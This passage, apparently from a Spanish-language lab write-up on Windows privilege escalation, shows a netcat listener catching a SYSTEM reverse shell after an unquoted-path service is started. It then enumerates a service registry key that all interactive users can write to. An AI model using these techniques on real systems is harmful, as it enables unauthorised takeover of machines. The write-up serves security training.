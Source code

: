 Inicio un oyente en kali y luego inicé el servicio para generar unshell con privilegios de `System`

```
net start unquotedsvc

──────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49863
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

-----

## Explotaciones de servicio Permisos de registros débiles

Consulte el servicio `regsvc` y observa que se ejecuta con privilegios de SYSTEM (SERVICE_START_NAME)

```
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Tener en cuenta que el grupo "NT AUTHOrITYY\INTeRACTIVE" (esencialmente todos los usurios conectados) pueden escribir en la entrada de registro para el servicio regsvc.

```
accesschk.exe -accepteula -uvwqk "HKLM\System\CurrentControlSet\Services\regsvc"
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
```
